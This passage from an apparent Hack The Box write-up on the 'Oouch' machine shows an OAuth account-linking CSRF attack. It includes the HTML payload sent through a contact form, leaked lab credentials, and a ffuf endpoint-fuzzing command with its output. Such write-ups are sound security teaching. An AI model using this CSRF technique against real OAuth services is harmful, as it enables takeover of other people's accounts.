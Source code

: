 We'll send the following payload in the contact form:

```html
<a href="http://consumer.oouch.htb:5000/oauth/connect/token?code=a1b2.....xyz">click here!</a>
```

> Make sure to replace the authorization code with a valid one tied to your account on the Authorization server.

{{<figure src="/img/htb/oouch/web5000_link_sent.png" position=center caption="CSRF link sent to admin">}}

After a few second, we see that our Oouch account not linked anymore:

{{<figure src="/img/htb/oouch/web5000_no_accounts_linked.png" position=center caption="No Accounts Connected.">}}

Let's try to logout, and login with our Oouch account at `consumer.oouch.htb:5000/oauth/login`:

{{<figure src="/img/htb/oouch/web5000_qtc_linked.png" position=center caption="Logged in as qtc.">}}

We can see that our Oouch account was linked to qtc's account.

Now if we go to `/documents`, we see something different:

{{<figure src="/img/htb/oouch/web5000_documents_qtc.png" position=center caption="qtc's documents.">}}

From this we learn:
- We have developer credentials we can use for "application registration" `develop:supermegasecureklarabubu123!`
- `/api/get_user` to get user data (returns a 403)
- `/oauth/authorize` supports GET method
- There is an ssh key to be found somewhere

### OAuth Exploitation: Part 2
___
Let's try to find others endpoints under `/oauth/`

```bash
ffuf -u 'http://authorization.oouch.htb:8000/oauth/FUZZ' -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://authorization.oouch.htb:8000/oauth/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

applications            [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 50ms]
```
